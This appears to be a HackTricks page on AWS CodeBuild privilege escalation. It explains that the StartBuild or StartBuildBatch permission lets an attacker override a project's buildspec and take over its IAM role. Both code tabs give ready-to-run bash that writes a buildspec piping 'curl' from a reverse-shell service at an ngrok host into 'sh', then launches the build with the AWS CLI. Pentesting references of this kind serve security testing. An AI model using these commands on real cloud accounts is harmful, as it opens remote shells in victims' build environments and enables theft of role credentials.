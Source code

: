 <details><summary>Support HackTricks</summary></details>
{% endhint %}

## codebuild

Get more info in:

{% content-ref url="../aws-services/aws-codebuild-enum.md" %}
[aws-codebuild-enum.md](../aws-services/aws-codebuild-enum.md)
{% endcontent-ref %}

### `codebuild:StartBuild` | `codebuild:StartBuildBatch`

Only with one of these permissions it's enough to trigger a build with a new buildspec and steal the token of the iam role assigned to the project:

{% tabs %}
{% tab title="StartBuild" %}
{% code overflow="wrap" %}
```bash
cat > /tmp/buildspec.yml <<EOF
version: 0.2

phases:
  build:
      commands:
            - curl https://reverse-shell.sh/6.tcp.eu.ngrok.io:18499 | sh
EOF

aws codebuild start-build --project <project-name> --buildspec-override file:///tmp/buildspec.yml
```
{% endcode %}
{% endtab %}

{% tab title="StartBuildBatch" %}
{% code overflow="wrap" %}
```bash
cat > /tmp/buildspec.yml <<EOF
version: 0.2

batch:
  fast-fail: false
  build-list:
    - identifier: build1
      env:
        variables:
          BUILD_ID: build1
      buildspec: |
        version: 0.2
        env:
          shell: sh
        phases:
          build:
            commands:
              - curl https://reverse-shell.sh/6.tcp.eu.ngrok.io:18499 | sh
      ignore-failure: true
EOF

aws codebuild start-build-batch --project <project-name> --buildspec-override file:///tmp/buildspec.yml
```
{% endcode %}
{% endtab %}
{% endtabs %}
